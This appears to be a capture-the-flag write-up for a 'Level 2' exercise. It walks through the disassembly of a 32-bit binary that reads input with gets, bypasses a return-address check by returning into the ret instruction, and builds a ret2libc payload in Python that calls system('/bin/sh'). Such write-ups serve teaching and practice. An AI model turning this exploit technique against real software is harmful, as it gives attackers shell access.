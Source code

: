 # LEVEL 2

```asm
0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave
 804854b:	c3                   	ret
```
The `main` function is only calling the `p` function.
```asm
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
```
The `p` function has a stack of 104 bytes. Its using gets to fill a buffer at `[ebp - 76]`.   
Since there is no direct shell invocation inside of the binary, we'll have to craft our own ret2libc.
The objective is: `system("/bin/sh")`.
```asm
080484d4 <p + 0x1e>:
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 ...
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
```
After reading user input, the function is copying its own return address into its stack space,
and compares the first byte to 0xb0. This is here to avoid that we overwrite a return into a
known address, like the local buffer, because stack addresses starts with this prefix on the
machine. However we can bypass this with a simple trick.   
If, as the `p` return address, we put the `p` `ret` instruction address, the code will just jump
on itself, popping the value from the stack and then `ret` again. Thus we can put our custom return
address after the original one and avoid the verification.   
```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

// TODO: explain how to find /bin/sh
```
The `system` symbol is present from the dynamic linking with libc, and this .so file also contains
the string `"/bin/sh"`.   
With those 2 addresses, the only thing we have to do is craft our payload. So 80 bytes of padding,
76 of stack + `old_ebp`, the `p` `ret` address, the `system` address, a dummy value to simulate
the return address that should have been pushed by the `call` instruction, and finally our string
address.
```python
PADDING = 80
RET     = 0x0804853e
SYSTEM  = 0xb7e6b060
BINSH   = 0xb7f8cc58

payload = b"\x90" * PADDING
payload += p32(RET) + p32(SYSTEM) + p32(0x90909090) + p32(BINSH)
```

